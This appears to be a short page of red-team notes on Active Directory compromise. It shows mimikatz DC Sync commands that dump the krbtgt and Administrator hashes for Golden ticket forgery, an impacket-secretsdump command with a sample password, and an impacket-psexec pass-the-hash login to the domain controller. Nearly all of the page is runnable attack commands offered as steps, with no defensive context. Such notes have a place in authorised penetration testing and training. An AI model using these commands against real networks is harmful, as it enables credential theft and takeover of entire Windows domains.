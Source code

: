 ## DC Sync

With the ticket of the DC machine account in our current user context we can trigger a DC Sync to dump the hash of any user. We may wish to adapt this to our needs, but 2 obvious users jump out.

### krbtgt

The first is the `krbtgt` user. This is the service account of the Key Distribution Center (KDC) service that runs on the DCs. It is a root of trust for Kerberos based domains. From `mimikatz.exe`
```
lsadump::dcsync /domain:infinity.com /user:INFINITY\krbtgt
```
From the output of the above grab the LM and NTLM hashes. These will be key to the forgery of a Golden ticket.

### Administrator

Or simpler still, the NTLM hash of the Administrator on the DC we coerced:
```
lsadump::dcsync /domain:infinity.com /user:infinity\administrator
```
and via Linux if we have credentials:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```
Then just log onto the DC:
```
impacket-psexec administrator@192.168.dc.ip -hashes <LM HASH>:<NT HASH>
```
or by whatever other remote auth pass-the-hash methodology you have available.